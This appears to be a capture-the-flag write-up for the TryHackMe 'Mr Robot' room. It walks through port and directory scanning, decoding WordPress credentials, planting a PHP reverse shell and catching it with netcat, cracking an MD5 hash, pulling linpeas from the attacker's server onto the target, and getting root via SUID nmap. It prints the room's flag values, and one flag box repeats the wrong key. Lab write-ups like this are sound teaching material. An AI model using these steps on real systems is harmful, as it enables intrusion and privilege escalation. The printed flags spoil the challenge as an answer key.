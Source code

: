 # Mr Robot CTF(THM)


![image](https://github.com/user-attachments/assets/7c52333d-a1a5-481e-bf7b-ffaf0ee8fd6a)

I personally felt like it was not just a simple room but a kinda crash course of using tools used for WebEx. 

Most Important learning from this machine: **Most systems don’t break from Brute-force, they break from overlooked configs**

## **Walkthrough**

Nmap Scan:

```jsx
┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -Pn -v 10.10.209.231
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 04:36 IST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 04:36
Completed Parallel DNS resolution of 1 host. at 04:36, 0.10s elapsed
Initiating Connect Scan at 04:36
Scanning 10.10.209.231 [1000 ports]
Discovered open port 443/tcp on 10.10.209.231
Discovered open port 80/tcp on 10.10.209.231
Completed Connect Scan at 04:36, 15.98s elapsed (1000 total ports)
Initiating Service scan at 04:36
Scanning 2 services on 10.10.209.231
Completed Service scan at 04:36, 13.56s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.209.231.
Initiating NSE at 04:36
Completed NSE at 04:36, 8.48s elapsed
Initiating NSE at 04:36
Completed NSE at 04:36, 1.60s elapsed
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Nmap scan report for 10.10.209.231
Host is up (0.23s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=www.example.com
| Issuer: commonName=www.example.com
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2015-09-16T10:45:03
| Not valid after:  2025-09-13T10:45:03
| MD5:   3c16:3b19:87c3:42ad:6634:c1c9:d0aa:fb97
|_SHA-1: ef0c:5fa5:931a:09a5:687c:a2c2:80c4:c792:07ce:f71b
|_http-server-header: Apache
|_http-title: 400 Bad Request
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E

NSE: Script Post-scanning.
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Initiating NSE at 04:36
Completed NSE at 04:36, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.87 seconds

```

Looking at the result of nmap scan, port 22 ssh is closed. Port 80 http is up and running Apache http. Also port 443 is up.

Now visiting the ip in browser: 

https://youtu.be/rcAMRjhphfI

I recommend trying all the comands given, even if it’s not useful. try diging may be can find some easier method.

Then I tried gobuster:

```jsx
gobuster dir --url http://10.10.209.231/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

===============================================================
/images (Status: 301)
/video (Status: 301)
/rss (Status: 301)
/image (Status: 301)
/blog (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/sitemap (Status: 200)
/admin (Status: 301)
/feed (Status: 301)
/robots (Status: 200)
/dashboard (Status: 302)
/login (Status: 302)
/phpmyadmin (Status: 403)
/intro (Status: 200)
/license (Status: 200)
/wp-content (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

As per the result and hint provided, I am interested more in the robots page. And yes, I contained the first key(flag)

![image](https://github.com/user-attachments/assets/2579726a-d030-4dba-abf4-22a311faf07d)


we have `fsocity.dic` and `key-1-of-3.txt` listed under `/robots`.  And going into `/key-1-of-3.txt` reveals the 1st key of the challange.

<aside>


> 🚩073403c8a58a1f80d943455fb30724b9
> 
</aside>

`fsocity.dic`  contains the list of usernames and password that we can use to bruteforce the admin login of the wordpress site

`/wp-login.php` reveals us login panel of wordpress.

![image](https://github.com/user-attachments/assets/f4881853-92b6-44e1-bc80-7a45a59376ae)


We have a set of usernames and password, shall we try BruteForceing it ???

We have got an  `/license` page also. Let’s try

![image](https://github.com/user-attachments/assets/5362c0a6-c9cd-421e-aca8-b8a38b8c0089)


We got an base64 encoded string right here. Let’s decrypt

![image](https://github.com/user-attachments/assets/df678355-b6f7-499d-87c7-f8f80ed43a6c)


Here we got the login username and password 
Let’s login

we have access to wordpress dashboard.

What to do next?

![image](https://github.com/user-attachments/assets/1406f20c-ec23-43e1-8d0f-8bb7b871713c)


Our best step would be to inject or replace the php file to malicious one. So that when the website runs the php we get ourself reverse shell.

For this i will be using php reverse shell from pentestmonkey https://github.com/pentestmonkey/php-reverse-shell

![image](https://github.com/user-attachments/assets/4a16b852-b482-4a6a-9107-2514bfec5935)


Replace with malicious code and change the IP Address and port. Next, run `netcat` and visit the 404 page. 

```bash
nc -lvnp 1234
```

```bash
listening on [any] 1243 ...
connect to [10.9.12.198] from (UNKNOWN) [10.10.121.252] 37394
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux 19:03:27 up 46 min, 0 users, load average: 0.05, 0.06, 0.13
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (1998): Inappropriate ioctl for device
bash: no job control in this shell
daemon@linux:/$ cd /home/robot
daemon@linux:/home/robot$ ls
key-2-of-3.txt
password.raw-md5
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

looking at the home directory of robot user. We can see to files.

`key-2-of-3.txt` and `password.raw-md5`

we don’t have access to `key-2-of-3.txt` but we can read `password.raw-md5`reading the password file reveals what looks like username and md5 encrypted password.

![image](https://github.com/user-attachments/assets/eb5ad1fe-7696-449e-b166-5441c15323a1)


the decode password. Now lets login with the user robot

```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ whoami
whoami
robot
robot@linux:~

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

<aside>


> 🚩073403c8a58a1f80d943455fb30724b9
> 
</aside>

Now for 3rd flag, it was necessary to perform privilege escalation to gain root access and open the root flag. On my Kali Linux, I downloaded `linpeas`, launched a web server, and downloaded `linpeas.sh` to the server.

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

python3 -m http.server

wget 10.10.33.211:8000/linpeas.sh

./linpeas.sh

SUID - Check easy privesc, exploits and write perms
...
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
...
```

With `linpeas`, I discovered that `nmap` could be exploited. Following a guide on GTFOBins, I found out how to exploit `nmap` for sudo privileges, became root, and obtained the root flag.

GFOBin -> https://gtfobins.github.io/gtfobins/nmap/#sudo

```bash
robot@linux:/tmp$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh

whoami
root

cd /root

ls
firstboot_done key-3-of-3.txt

cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

<aside>


> 🚩04787ddef27c3dee1ee161b21670b4e4
> 
</aside>
